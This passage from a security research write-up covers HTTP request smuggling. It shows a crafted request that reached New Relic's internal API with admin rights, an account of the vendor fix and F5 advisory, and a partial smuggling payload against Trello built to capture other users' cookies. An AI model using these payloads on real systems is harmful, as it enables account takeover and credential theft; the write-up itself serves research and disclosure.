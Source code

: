 0

POST /internal_api/934454/session HTTP/1.1
Host: alerts.newrelic.com
X-Forwarded-Proto: https
Service-Gateway-Account-Id: 934454
Service-Gateway-Is-Newrelic-Admin: true
Content-Length: 6
…
x=123GET...

HTTP/1.1 200 OK

{
  "user": {
     "account_id": 934454,
     "is_newrelic_admin": true
  },
  "current_account_id": 934454
  …
} 
New Relic deployed a hotfix and diagnosed the root cause as a weakness in an F5 gateway. The report has now been publicly disclosed. As far as I'm aware there's no patch available, meaning this is still a zeroday at the time of writing. Update: F5 Issued advisory K50375550 for this on the 25th August 2019.

Exploit
Breaking straight into internal APIs is great when it works, but it's rarely our only option. There's also a wealth of different attacks we can launch against everyone browsing the target website.

To establish which attacks we can apply to other users, we need to understand what types of request we can poison. Repeat the socket poisoning test from the 'Confirm' stage, but iteratively tweak the 'victim' request until it resembles a typical GET request. You might find that you can only poison requests with certain methods, paths or headers. Also, try issuing the victim request from a different IP address - in rare cases, you may find that you can only poison requests originating from the same IP.

Finally, check if the website uses a web cache; these can help bypass many restrictions, increase our control over which resources get poisoned, and ultimately multiply the severity of request smuggling vulnerabilities.

Store
If the application supports editing or storing any kind of text data, exploitation is exceptionally easy. By prefixing the victim's request with a crafted storage request, we can make the application save their request and display it back to us - then steal any authentication cookies/headers. Here's an example targeting Trello, using their profile-edit endpoint:

POST /1/cards HTTP/1.1
Host: trello.com
Transfer-Encoding:[tab]chunked
Content-Length: 4

9f
PUT /1/members/1234 HTTP/1.1
Host: trello.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
